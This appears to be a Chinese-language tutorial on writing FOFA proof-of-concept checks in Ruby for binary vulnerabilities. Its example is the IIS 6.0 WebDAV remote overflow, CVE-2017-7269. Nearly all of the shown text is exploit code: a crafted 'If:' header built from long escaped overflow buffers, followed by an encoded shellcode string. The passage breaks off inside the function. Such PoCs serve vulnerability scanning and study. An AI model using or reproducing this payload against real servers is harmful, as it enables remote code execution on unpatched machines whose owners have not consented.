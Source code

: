 ##编写二进制漏洞FOFA PoC
``思路：自定义vulnerable函数，使用ruby编写socket程序``  
案例如下：**IIS6.0 cve-2017-7269 远程溢出 FOFA PoC**  
<pre>
	<code>
def vulnerable(hostinfo)
  hostinfo = "http://"+hostinfo if !hostinfo.start_with?"http"
  hostinfo = URI(hostinfo)
  
  buf1 = "If: <http://localhost/aaaaaaa"
  buf1 << "\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac"
  buf1 << ">"
  buf1 << " (Not <locktoken:write1>) <http://localhost/bbbbbbb"
  buf1 << "\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81"
  shellcode = 'VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397N10WRJLMSSI7LNR72JPTKOXPQ3PV0ENM02NPNQNWNMNWOBNVP9KPOS2O2NT4S52N44NMB4RYD0C5OJMPBTQURX44NORH2TRMBLLMKZPCRORNSDQU2N2TNMPL1URN2GT4S8OJOBOFMPLMKZLMLJOXOX1924MPOSPV0ENMNRP0NQNWNMOGNROFP9O01CRU3333RET3SCM0M0A'
  